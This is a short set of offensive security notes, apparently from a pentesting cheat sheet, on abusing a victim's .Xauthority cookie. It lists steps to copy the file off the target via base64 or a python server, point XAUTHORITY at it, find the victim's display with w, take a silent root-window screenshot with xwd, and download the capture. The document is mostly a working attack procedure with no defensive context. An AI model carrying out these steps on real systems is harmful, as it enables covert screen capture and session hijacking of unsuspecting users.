 ### Files present in home directory:

### .xsession, .Xauthority

### Check for the LightDM user in /etc/passwd for further confirmation.

### The presence of these files in a user's home directory might indicate that the user has already authenticated and possibly contain sensitive information to view.

## Steps:

#### 1) Transfer the .Xauthority file to our machine (cat .Xauthority | base64) then (echo 'BASE64_STRING' > /tmp/Xauthority) or just transfer it via a python server.

#### 2) export XAUTHORITY=/tmp/Xauthority (Set the cookie by pointing the environment variable to our cookie file)

#### 3) w (Check which display the user we are trying to impersonate is using)

#### 4) xwd (Dumps an image of an x window, to get a screenshot in its current state.

### Example command:

#### xwd -root -screen -silent -display :0 > /tmp/screen.xwd (-root: select root window, -screen: send GetImage request to root window, -silent: Do it silently, -display: specify the server to connect to

#### 5) Download the file from the victim host to our machine

#### 6) convert /tmp/screen.xwd screen.png (Convert to image format to view the screenshot)
